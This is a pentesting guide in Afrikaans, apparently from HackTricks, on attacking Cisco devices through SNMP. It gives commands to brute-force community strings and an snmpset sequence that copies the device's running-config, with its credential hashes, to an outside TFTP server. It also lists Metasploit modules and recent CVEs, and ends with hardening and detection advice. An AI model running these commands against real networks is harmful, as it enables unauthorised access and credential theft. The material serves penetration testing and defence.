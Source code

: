 # Cisco SNMP

{{#include ../../banners/hacktricks-training.md}}

## Pentesting Cisco Networks

**SNMP** funksioneer oor UDP met poorte **161/UDP** vir algemene boodskappe en **162/UDP** vir valboodskappe. Hierdie protokol staat op *gemeenskapsstringe*, wat as platte teks "wagwoorde" dien wat kommunikasie tussen SNMP-agente en bestuurders moontlik maak. Hierdie stringe bepaal die toegangsvlak, spesifiek **slegs lees (RO) of lees-skryf (RW) regte**.

'n Klassieke—maar steeds uiters effektiewe—aanvalsvlak is om **gemeenskapsstringe te brute-force** om van 'n nie-geverifieerde gebruiker na toesteladministrateur (RW-gemeenskap) te verhoog. 'n Praktiese hulpmiddel vir hierdie taak is [**onesixtyone**](https://github.com/trailofbits/onesixtyone):
```bash
onesixtyone -c community_strings.txt -i targets.txt
```
Ander vinnige opsies is die Nmap NSE-skrip `snmp-brute` of Hydra se SNMP-modules:
```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```
---

### Dumping configuration through SNMP (CISCO-CONFIG-COPY-MIB)
As jy 'n **RW community** verkry, kan jy die running-config/startup-config na 'n TFTP/FTP bediener kopieer *sonder CLI toegang* deur die CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`) te misbruik. Twee algemene benaderings is:

1. **Nmap NSE – `snmp-ios-config`**
```bash
nmap -sU -p161 --script snmp-ios-config \
--script-args creds.snmp=private 192.168.66.1
```
Die skripte orkestreer outomaties die kopieeroperasie en druk die konfigurasie na stdout.

2. **Handmatige `snmpset` volgorde**
```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
Row identifiers is *one-shot*; hergebruik binne vyf minute aktiveer `inconsistentValue` foute.

Sodra die lêer op jou TFTP-bediener is, kan jy akrediteer ( `enable secret`, `username <user> secret`, ens.) of selfs 'n gewysigde konfigurasie terug na die toestel druk.

---

### Metasploit goedere

* **`cisco_config_tftp`** – laai running-config/startup-config af via TFTP nadat dieselfde MIB misbruik is.
* **`snmp_enum`** – versamel toestel inventaris inligting, VLANs, interface beskrywings, ARP tabelle, ens.
```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```
---

## Onlangse Cisco SNMP kwesbaarhede (2023 – 2025)
Om verskaffer advies te volg is nuttig om *zero-day-to-n-day* geleenthede binne 'n betrokkenheid te bepaal:

| Jaar | CVE | Aangetaste kenmerk | Impak |
|------|-----|-------------------|-------|
| 2025 | CVE-2025-20174 | SNMP subsisteem | Gemaakte pakket lei tot geverifieerde *DoS* (herlaai) op IOS/IOS-XE (v1/v2c/v3).   |
| 2024 | CVE-2024-20373 | IPv4 ACL hantering | Foutief geconfigureerde **uitgebreide** ACLs misluk stil, wat ongeverifieerde SNMP polling toelaat wanneer 'n geldige gemeenskap/gebruiker bekend is.   |
| 2025 | (geen CVE nog) | SNMPv3 konfigurasiebeperking omseiling | Geldige v3 gebruiker kan poll vanaf adresse wat verban moet word.   |

Eksploiteerbaarheid hang dikwels steeds af van die besit van die gemeenskap string of v3 geloofsbriewe—nog 'n rede waarom brute-forcing daarvan relevant bly.

---

## Versterking & Opsporing wenke

* Opgradeer na 'n reggemaakte IOS/IOS-XE weergawe (sien Cisco advies vir die bogenoemde CVE).
* Verkies **SNMPv3** met `authPriv` (SHA-256/AES-256) bo v1/v2c.
```
snmp-server group SECURE v3 priv
snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
```
* Bind SNMP aan 'n bestuur VRF en **beperk met *standaard* genummerde IPv4 ACLs** (uitgebreide naam ACLs is riskant – CVE-2024-20373).
* Deaktiveer **RW gemeenskappe**; indien operasioneel benodig, beperk hulle met ACL en uitsigte:
`snmp-server community <string> RW 99  view SysView`
* Monitor vir:
- UDP/161 pieke of onverwagte bronne (SIEM reëls).
- `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource` gebeurtenisse wat uit-baan konfigurasiewijzigings aandui.
* Aktiveer **SNMPv3 logging** en `snmp-server packetsize 1500` om sekere DoS vektore te verminder.

---

## Verwysings

- Cisco: *Hoe om Konfigurasies na en van Cisco Toestelle te Kopieer met SNMP*
- Cisco Veiligheidsadvies *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)

{{#include ../../banners/hacktricks-training.md}}
